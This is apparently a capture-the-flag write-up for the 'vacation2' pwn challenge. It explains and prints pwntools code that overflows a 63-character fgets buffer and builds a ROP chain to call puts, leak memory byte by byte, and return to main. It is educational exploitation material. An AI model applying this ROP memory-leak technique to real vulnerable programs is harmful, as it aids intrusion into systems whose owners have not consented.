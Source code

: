 ### pwn/vacation2

The original script in `vacation2/x.py` contains more comments and debug print statements.

This helper function sends up to 64 bytes.
It asserts that `fgets` will copy the full content into memory without modifications.

```python
def send_one_line(p, line):
    assert b"\n" not in line, line
    # The program reads at most 63 chars and adds a 0 at the end
    if len(line) < 63:
        p.sendline(line)
    elif len(line) == 63:
        p.send(line)
    elif len(line) == 64:
        assert line[63] == 0, line
        p.send(line[0:63])
    else:
        assert False, line
```

Next, the function `read_bytes_and_ret_to_main(pointer, length)` can be used to read a byte array from memory.

It uses the helper function `puts_addr_and_ret_to_main(addr)` to construct the rop chain.
First `rop(rdi = p64(addr))` places a char pointer `addr` on the stack and some address with the instructions `pop rdi; ret` to load it into the register.
Then we add `0x004011d6` and `0` to execute `puts; pop rbp; ret` at the end of main. 
Finally, we return to the beginning of `main` so that we can send another line.

Because `puts` stops at the null terminator we call it in a loop with different offsets until we have received at least the desired amount of bytes.

```python
def puts_addr_and_ret_to_main(addr):
    chall = context.binary
    rop = ROP(chall)

    rop(rdi = p64(addr))
    rop.raw(p64(0x004011d6))

    rop.raw(p64(0)) # for pop rbp at the end of main
    rop.raw(p64(chall.symbols["main"]))

    return bytes(rop)

def read_bytes_and_ret_to_main(pointer, length):
    value = b""
    for i in range(length):
        if i == len(value):
            send_one_line(p, b"x" * (16 + 8) + puts_addr_and_ret_to_main(pointer + i))
            data = p.recvuntil(b"\nWhere am I going today?\n", drop=True)
            value += data
            value += b"\0"
    return value[0:length]
```
